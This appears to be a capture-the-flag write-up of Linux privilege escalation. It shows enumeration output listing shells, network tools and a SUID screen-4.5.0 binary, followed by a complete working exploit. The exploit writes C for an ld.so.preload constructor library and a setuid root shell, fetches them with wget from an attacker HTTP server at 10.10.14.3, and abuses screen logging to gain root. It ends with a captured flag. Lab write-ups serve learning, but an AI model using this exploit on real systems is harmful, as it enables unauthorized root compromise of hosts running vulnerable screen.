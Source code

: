 ### Linenum

```txt
[-] Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
/usr/bin/tmux
/usr/bin/screen
```

```txt
[-] Useful file locations:
/bin/nc
/bin/netcat
/usr/bin/wget
/usr/bin/gcc
/usr/bin/curl
```

```txt
[-] SUID files:
-rwsr-xr-x 1 root root 1588648 May 19  2017 /usr/bin/screen-4.5.0
```



### Linpeas


reference: *https://www.exploit-db.com/exploits/41154*

(modified) compile exploit code:

```bash

cat << EOF > libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("rootshell", 0, 0);
    chmod("rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF

gcc -fPIC -shared -ldl -o libhax.so libhax.c

cat << EOF > rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF

gcc -o rootshell rootshell.c

```


spin up an http server on the attacker machine:

```python
python3 -m http.server 8000
```

on the target machine, download the code and copy to the */tmp* directory:

```bash
wget http://10.10.14.3:8000/libhax.so
wget http://10.10.14.3:8000/rootshell
```

run the following commands on the target machine:

```bash
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0alibhax.so"
screen -ls 
/tmp/rootshell
```

we get a root shell.

root.txt
```
4cfa26d84b2220826a07f0697dc72151
```